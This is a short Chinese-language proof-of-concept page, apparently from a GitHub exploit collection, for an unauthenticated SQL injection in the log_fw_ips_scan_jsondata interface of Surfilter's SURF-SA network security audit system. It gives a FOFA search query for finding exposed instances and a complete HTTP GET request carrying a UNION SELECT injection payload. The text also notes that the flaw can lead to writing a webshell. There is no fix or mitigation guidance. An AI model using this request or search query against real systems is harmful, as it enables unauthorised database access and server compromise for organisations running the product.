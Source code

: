 # 任子行网络安全审计系统log_fw_ips_scan_jsondata接口存在SQL注入漏洞

任子行网络安全审计系统SURF-SA系列产品是任子行为各行业提供的自主可控信息化办公环境上网行为审计的安全服务。任子行网络安全审计系统 log_fw_ips_scan_jsondata 接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```javascript
title="任子行网络安全审计系统"
```

## poc

```javascript
GET /webui/?g=log_fw_ips_scan_jsondata&uname='+union+select+sqlite_version(),2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19--+ HTTP/1.1
Host: 
Referer: https://
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
```

![image-20241122152436961](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411221524049.png)